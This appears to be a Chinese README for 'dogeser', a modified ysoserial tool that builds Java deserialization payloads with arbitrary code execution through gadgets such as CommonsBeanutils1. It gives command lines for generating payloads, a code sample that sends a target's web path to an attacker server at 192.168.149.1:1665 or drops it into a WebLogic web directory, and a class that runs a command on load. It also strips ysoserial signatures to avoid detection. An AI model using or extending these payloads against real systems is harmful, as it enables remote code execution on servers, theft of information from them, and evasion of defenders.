



# 修改ysoserial使其支持任意代码执行

## 减小payload的体积

根据文章[缩小ysoserial payload体积的几个方法](https://xz.aliyun.com/t/6227)最大程度上减小生成payload的体积，对比结果直接减小一半多。  
  
  


---

## 支持自定义方法，类

参考[ysoserial 工具改造（一）](https://www.yuque.com/tianxiadamutou/zcfd4v/ffd33r)和[使ysoserial支持执行自定义代码](https://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/)方法将生成payload方法进行改造。  
我这边添加了五种方式

| 序号 | 方式 | 描述 |
| --- | --- | --- |
| 1 | command | 与原版相同 |
| 2 | “code:代码内容” | 代码量比较少时采用 |
| 3 | “codebase64:代码内容base64编码” | 防止代码中存在但引号，双引号，&等字符与控制台命令冲突。 |
| 4 | “codefile:代码文件路径” | 代码量比较多时采用 |
| 5 | “classfile:class路径“ | 利用已生成好的 class 直接获取其字节码 |

支持下面这些gadget  


### codebase64、codefile:、code三种命令介绍

三个命令使用方法参考，codefile:是code比较多的时候。

```
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 code:calc
```

```
String HOST = "http://192.168.149.1:1665";
String WEB_PATH = System.getProperty("user.dir");

String str_url = HOST + "/?info=" + WEB_PATH;
try{
    //若目标能访问我们的服务器，则发送信息到服务器上
    java.net.URL url = new java.net.URL(str_url);
    java.net.URLConnection conn = url.openConnection();
    conn.connect();
    conn.getContent();
}catch(Exception e){
    //若目标不能访问我们的服务器，则将信息写到自己的web目录下info.log文件中
    String webPath = WEB_PATH + "/servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/info.log";
    try {
        java.io.FileOutputStream f1 = new java.io.FileOutputStream(webPath);
        f1.write(WEB_PATH.getBytes());
        f1.close();
    } catch (Exception e1) {
        e1.printStackTrace();
    }
}
```

```
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 codefile:Calc.java
```

[案例](https://gv7.me/articles/2019/enable-ysoserial-to-support-execution-of-custom-code/#0x04-%E6%A1%88%E4%BE%8B)

### classfile：

类需要继承AbstractTranslet   
需要区分xalan\xalan\2.7.2\xalan-2.7.2.jar!\org\apache\xalan\xsltc\runtime\AbstractTranslet.class  
这里需要的是**jdk内置的AbstractTranslet**  
以弹计算器为例

```java
java -jar dogeser-0.0.8-SNAPSHOT-all.jar CommonsBeanutils1 classfile:G:\Calc.class>2.ser
```

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

/**
 * @ClassName: Calc
 * @Description: TODO
 * @Author: Summer
 * @Date: 2021/9/10 16:16
 * @Version: v1.0.0
 * @Description:
 **/
public class Calc extends AbstractTranslet {
    public  Calc() {}

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM dom, SerializationHandler[] serializationHandlers) throws TransletException {

    }

}
```

## 

### 去掉原版绝大数特征

原版大量使用ysoserial、Pwer字段，去除后效果。改掉原版package名字换成dogeser，生成的payload的就不会出现ysoserial字段。  
  
​

  

##
## 参考

<https://xz.aliyun.com/t/6227>  
<https://www.yuque.com/tianxiadamutou/zcfd4v/ffd33r>
